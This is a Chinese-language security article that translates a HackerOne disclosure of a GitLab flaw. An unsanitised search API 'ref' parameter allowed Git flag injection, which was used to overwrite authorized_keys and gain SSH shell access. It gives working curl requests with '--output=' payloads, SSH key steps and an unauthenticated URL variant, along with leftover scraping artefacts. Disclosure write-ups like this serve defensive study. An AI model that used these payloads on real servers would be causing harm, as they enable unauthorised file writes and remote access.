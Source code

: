 #  价值12000美元 的GitLab 中的 Git flag注入漏洞   
原创 漏洞集萃  漏洞集萃   2025-06-01 06:46  
  
****  
一个被滥用的 ref  
 参数和一个 Git CLI 的“小怪癖”如何让攻击者无需身份验证即可 SSH 登录 GitLab 服务器  
  
在一份提交给 GitLab 的高危漏洞报告中，安全研究员 vakzz 发现了一个严重漏洞，该漏洞始于一个看似无害的搜索 API 参数，最终却升级为通过 SSH 实现的远程代码执行。  
  
问题出在哪里呢？GitLab 搜索 API 中的 ref  
 参数使得 Git CLI 标志注入成为可能，攻击者可以借此覆盖任意文件，包括 SSH 密钥。  
  
这不仅让 vakzz 获得了 12,000 美元的漏洞赏金，也成为了一个绝佳案例，展示了后端工具中的命令行注入如何将一个低风险的攻击入口转变为全面的系统沦陷。  
### 漏洞摘要  
- GitLab 暴露了一个 /search  
 API，允许用户在项目 wiki 中使用 wiki_blobs  
 范围进行搜索。  
  
- 此 API 接受一个 ref  
 参数，用于指定 Git 引用，如分支或标签。  
  
- 但 GitLab 并未对该输入进行清理，而是将其直接作为参数传递给 Git CLI。  
  
- 这就为标志注入（例如，--output=/tmp/file  
）打开了大门，让攻击者能够控制 Git 写入数据的位置。  
  
### 逐步利用漏洞  
  
让我们一步步解析这个漏洞是如何从 HTML 层面被利用，一直到获取 shell 权限的。  
#### 1. 带有 ref 注入的易受攻击 API 调用  
  
攻击者使用 GitLab 针对 wiki_blobs  
 的搜索 API，通过 ref  
 参数注入一个标志：  
```
ounter(lineounter(line
curl --header "PRIVATE-TOKEN: $TOKEN" \
  'http://gitlab-vm.local/api/v4/projects/4/search?scope=wiki_blobs&search=page&ref=--output=/tmp/file'
```  
  
这会导致 GitLab 在后端执行一个如下所示的 Git 命令：  
```
ounter(lineounter(lineounter(line
/opt/gitlab/embedded/bin/git \
  --git-dir /var/opt/gitlab/git-data/repositories/...wiki.git \
  log --max-count=1 --output=/tmp/file
```  
  
被注入的 --output  
 标志告诉 Git 将提交日志写入 /tmp/file  
，攻击者随后便可以读取该文件。  
#### 2. 向文件写入受控内容  
  
为了控制文件内容，攻击者需要：  
1. 创建一个标题为 page  
 的新 Wiki 页面。  
  
1. 将该页面的提交信息设置为期望的载荷（例如，一个 SSH 密钥）。  
  
Git 提交的内容（即提交信息）就会成为写入到 /tmp/file  
 的内容。  
#### 3. 升级至 SSH 访问权限  
  
真正的“魔法”在于：用一个有效的 RSA 公钥覆盖 authorized_keys  
 文件。  
  
步骤如下：  
1. 生成一个 SSH 密钥：```
ssh-keygen -t rsa -f gitlab
```  
  
  
1.   
1. ounter(line  
1. 将提交信息设置为公钥内容：```
ssh-rsa AAAAB3... attacker@host
```  
  
  
1.   
1. ounter(line  
1. 通过 API 注入 ref=--output=/var/opt/gitlab/.ssh/authorized_keys  
：```
curl 'http://gitlab-vm.local/api/v4/projects/4/search?scope=wiki_blobs&search=page&ref=--output=/var/opt/gitlab/.ssh/authorized_keys'
```  
  
  
1.   
1. ounter(line  
1. 以 git  
 用户身份 SSH 登录 GitLab：```
ssh git@gitlab-vm.local -i gitlab
```  
  
  
1.   
1. ounter(line  
砰！现在你已经拥有了 git  
 用户的 shell 访问权限。  
#### 4. 额外惊喜：无需身份验证的触发方式  
  
更糟糕的是，这个漏洞甚至可以通过 Web 搜索在无需身份验证的情况下触发：  
```
ounter(line
http://gitlab-vm.local/search?scope=wiki_blobs&search=page&project_id=4&repository_ref=--output=/tmp/file
```  
  
虽然未经身份验证的用户无法控制提交信息，但这仍然允许创建任意文件，可能有助于进行侦察或发动 DoS 攻击。  
### 影响  
- **远程代码执行**  
：通过向 authorized_keys  
 文件注入 SSH 密钥，攻击者可以获得对 GitLab 服务器的 shell 访问权限。  
  
- **无需认证的攻击途径**  
：可以在没有登录凭证的情况下触发漏洞，尽管对文件内容的控制较少。  
  
- **文件覆盖**  
：可以写入或覆盖任意文件，从而危及日志、配置文件或身份验证文件。  
  
### 根本原因  
  
ref  
 参数未经清理就直接传递给了 Git CLI，从而允许注入任意标志（例如 --output  
、--config  
）。Git 会将这些标志解释为合法的 CLI 选项，而不是 Git 引用。  
###   
###   
  
![](https://mmbiz.qpic.cn/mmbiz_png/Y5LD4fX7WOLaPZe8pSjkbuAlrjT0OFFggomia22B9JE6RmXkUMllqsOXculdB3icUBzg7HRibCJBwbUpc2OPwXwOA/640?wx_fmt=png&from=appmsg "")  
####   
###   
  
  
  
  
****  
  
****  
  
====本文结束====  
  
以上内容由漏洞集萃翻译整理。  
  
参考：  
  
https://hackerone.com/reports/658013  
  
  
